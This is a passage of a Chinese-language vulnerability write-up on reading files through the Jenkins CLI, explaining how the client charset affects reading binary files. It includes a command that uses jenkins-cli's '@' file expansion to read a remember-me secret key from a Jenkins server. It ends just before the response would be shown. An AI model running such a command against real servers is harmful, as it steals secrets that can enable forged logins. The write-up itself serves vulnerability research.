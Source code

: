 而正常来说，Linux 系统下部署的 Jenkins 都是默认的 UTF-8 字符集，而部分 Windows 下部署的 Jenkins 可能会是其他字符集。如果按照 16:32 这个比例来看，当前环境是根本无法正确读到二进制文件的。

那么，是否有办法在客户端设置字符集呢？

我在抓 cli 请求包的时候，关注到协议中是存在一个字符集的设置的：

[![image.png](assets/1706513731-3c9318400ea184b1f54e703b049b8f73.png)](https://www.leavesongs.com/media/attachment/2024/01/27/dd7ddcc4-57a0-4524-bb83-5ada9af8b2c2.png)

阅读代码可以发现，这个字符集可以通过 Java 客户端的`file.encoding`来配置。我尝试将其设置为 UTF-16BE：

```plain
java -Dfile.encoding=UTF-16BE -jar jenkins-cli.jar -s http://localhost:8080/ -http who-am-i "@/var/jenkins_home/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac"
```

此时再抓包查看返回：
